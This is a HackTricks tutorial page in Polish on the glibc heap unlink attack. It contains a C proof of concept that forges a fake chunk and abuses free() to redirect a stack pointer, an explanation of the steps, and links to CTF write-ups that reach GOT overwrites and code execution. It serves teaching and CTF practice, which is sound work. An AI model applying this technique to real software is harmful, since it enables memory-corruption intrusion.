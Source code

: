 # Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe Informacje

Kiedy ten atak został odkryty, głównie pozwalał na WWW (Write What Where), jednak dodano pewne **sprawdzenia**, co sprawiło, że nowa wersja ataku stała się bardziej interesująca, bardziej złożona i **bezużyteczna**.

### Przykład kodu:

<details>

<summary>Code</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Atak nie działa, jeśli używane są tcaches (po wersji 2.26)

### Cel

Ten atak pozwala na **zmianę wskaźnika do kawałka, aby wskazywał 3 adresy przed sobą**. Jeśli ta nowa lokalizacja (otoczenie, w którym znajdował się wskaźnik) zawiera interesujące rzeczy, takie jak inne kontrolowane alokacje / stos..., możliwe jest ich odczytanie/zapisanie, aby spowodować większe szkody.

* Jeśli ten wskaźnik znajdował się na stosie, ponieważ teraz wskazuje 3 adresy przed sobą, a użytkownik potencjalnie może go odczytać i modyfikować, możliwe będzie wycieknięcie wrażliwych informacji ze stosu lub nawet modyfikacja adresu powrotu (może) bez dotykania canary.
* W przykładach CTF ten wskaźnik znajduje się w tablicy wskaźników do innych alokacji, dlatego, zmieniając go, aby wskazywał 3 adresy przed sobą i mając możliwość odczytu i zapisu, możliwe jest, aby inne wskaźniki wskazywały na inne adresy.\
Ponieważ użytkownik potencjalnie może również odczytywać/zapisywać inne alokacje, może wyciekować informacje lub nadpisywać nowe adresy w dowolnych lokalizacjach (jak w GOT).

### Wymagania

* Pewna kontrola w pamięci (np. stos), aby stworzyć kilka kawałków, nadając wartości niektórym atrybutom.
* Wyciek ze stosu w celu ustawienia wskaźników fałszywego kawałka.

### Atak

* Istnieje kilka kawałków (chunk1 i chunk2)
* Atakujący kontroluje zawartość chunk1 i nagłówki chunk2.
* W chunk1 atakujący tworzy strukturę fałszywego kawałka:
* Aby obejść zabezpieczenia, upewnia się, że pole `size` jest poprawne, aby uniknąć błędu: `corrupted size vs. prev_size while consolidating`
* a pola `fd` i `bk` fałszywego kawałka wskazują, gdzie przechowywany jest wskaźnik chunk1 z przesunięciami -3 i -2 odpowiednio, więc `fake_chunk->fd->bk` i `fake_chunk->bk->fd` wskazują na pozycję w pamięci (stos), gdzie znajduje się rzeczywisty adres chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Nagłówki chunk2 są modyfikowane, aby wskazywały, że poprzedni kawałek nie jest używany i że rozmiar to rozmiar zawartego fałszywego kawałka.
* Gdy drugi kawałek jest zwalniany, ten fałszywy kawałek jest odłączany, co prowadzi do:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Wcześniej zrobiono, że `fake_chunk->fd->bk` i `fake_chunk->bk->fd` wskazują na to samo miejsce (lokalizacja na stosie, gdzie przechowywany był `chunk1`, więc była to ważna lista powiązana). Ponieważ **oba wskazują na tę samą lokalizację**, tylko ostatni (`fake_chunk->bk->fd = fake_chunk->fd`) wejdzie w **efekt**.
* To **nadpisze wskaźnik do chunk1 na stosie na adres (lub bajty) przechowywane 3 adresy przed w stosie**.
* Dlatego, jeśli atakujący mógłby ponownie kontrolować zawartość chunk1, będzie mógł **zapisać wewnątrz stosu**, mając potencjalnie możliwość nadpisania adresu powrotu, omijając canary i modyfikując wartości oraz wskaźniki lokalnych zmiennych. Nawet ponownie modyfikując adres chunk1 przechowywany na stosie na inną lokalizację, gdzie jeśli atakujący mógłby ponownie kontrolować zawartość chunk1, mógłby zapisać wszędzie.
* Należy zauważyć, że to było możliwe, ponieważ **adresy są przechowywane na stosie**. Ryzyko i wykorzystanie mogą zależeć od **tego, gdzie są przechowywane adresy fałszywego kawałka**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Referencje

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Chociaż byłoby dziwnie znaleźć atak unlink nawet w CTF, oto kilka opisów, w których ten atak był używany:
* Przykład CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* W tym przykładzie, zamiast stosu, jest tablica alokowanych adresów. Atak unlink jest przeprowadzany, aby móc alokować kawałek tutaj, a tym samym kontrolować wskaźniki tablicy alokowanych adresów. Następnie istnieje inna funkcjonalność, która pozwala na modyfikację zawartości kawałków w tych adresach, co pozwala na wskazywanie adresów do GOT, modyfikację adresów funkcji, aby uzyskać wycieki i RCE.
* Inny przykład CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Podobnie jak w poprzednim przykładzie, istnieje tablica adresów alokacji. Możliwe jest przeprowadzenie ataku unlink, aby adres do pierwszej alokacji wskazywał kilka pozycji przed rozpoczęciem tablicy i nadpisywał tę alokację w nowej pozycji. Dlatego możliwe jest nadpisanie wskaźników innych alokacji, aby wskazywały na GOT funkcji atoi, wydrukować to, aby uzyskać wyciek libc, a następnie nadpisać GOT atoi adresem do jednego gadżetu.
* Przykład CTF z niestandardowymi funkcjami malloc i free, które wykorzystują lukę bardzo podobną do ataku unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Istnieje przepełnienie, które pozwala na kontrolowanie wskaźników FD i BK niestandardowego malloc, które będą (niestandardowo) zwalniane. Ponadto, sterta ma bit exec, więc możliwe jest wycieknięcie adresu sterty i wskazanie funkcji z GOT do kawałka sterty z shellcodem do wykonania.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
